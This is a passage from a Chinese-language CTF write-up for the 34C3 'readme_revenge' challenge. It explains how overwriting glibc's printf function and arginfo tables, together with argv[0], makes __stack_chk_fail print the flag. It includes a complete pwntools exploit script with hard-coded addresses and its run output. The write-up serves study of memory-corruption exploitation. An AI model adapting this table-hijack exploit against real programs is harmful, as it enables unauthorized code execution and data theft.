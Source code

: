 ```c
 out:
  __libc_lock_unlock (lock);

  return result;
}
```
然后发现 `spec` 被直接用做数组 `__printf_function_table` 和 `__printf_arginfo_table` 的下标。`s` 也就是 `0x73`，这和我们在 gdb 里看到的相符：`rdx=0x73`，`[rax+rdx*8]`正好是数组取值的方式，虽然这里的 `rax` 里保存的是 `__printf_modifier_table`。


## 漏洞利用
有了上面的分析，下面我们来构造 exp。

回顾一下 `__parse_one_specmb()` 函数里的 `if` 判断语句，我们知道 C 语言对 `||` 的处理机制是如果第一个表达式为 True，就不再进行第二个表达式的判断，所以为了执行函数 `*__printf_arginfo_table[spec->info.spec]`，需要前面的判断条件都为 False。我们可以在 `.bss` 段上伪造一个 `printf_arginfo_size_function` 结构体，在结构体偏移 `0x73*8` 的地方放上 `__stack_chk_fail()` 的地址，当该函数执行时，将打印出 `argv[0]` 指向的字符串，所以我们还需要将 `argv[0]` 覆盖为 flag 的地址。

Bingo!!!
```
$ python2 exp.py 
[+] Starting local process './readme_revenge': pid 14553
[*] Switching to interactive mode
*** stack smashing detected ***: 34C3_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX terminated
```

#### exploit
完整的 exp 如下：
```python
from pwn import *

io = process('./readme_revenge')

flag_addr = 0x6b4040
name_addr = 0x6b73e0
argv_addr = 0x6b7980
func_table = 0x6b7a28
arginfo_table = 0x6b7aa8
stack_chk_fail = 0x4359b0

payload  = p64(flag_addr)       # name
payload  = payload.ljust(0x73 * 8, "\x00")
payload += p64(stack_chk_fail)  # __printf_arginfo_table[spec->info.spec]
payload  = payload.ljust(argv_addr - name_addr, "\x00")
payload += p64(name_addr)       # argv
payload  = payload.ljust(func_table - name_addr, "\x00")
payload += p64(name_addr)       # __printf_function_table
payload  = payload.ljust(arginfo_table - name_addr, "\x00")
payload += p64(name_addr)       # __printf_arginfo_table

# with open("./payload", "wb") as f:
#     f.write(payload)

io.sendline(payload)
io.interactive()
```


## 参考资料
- https://ctftime.org/task/5135
- [Customizing printf](https://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html)
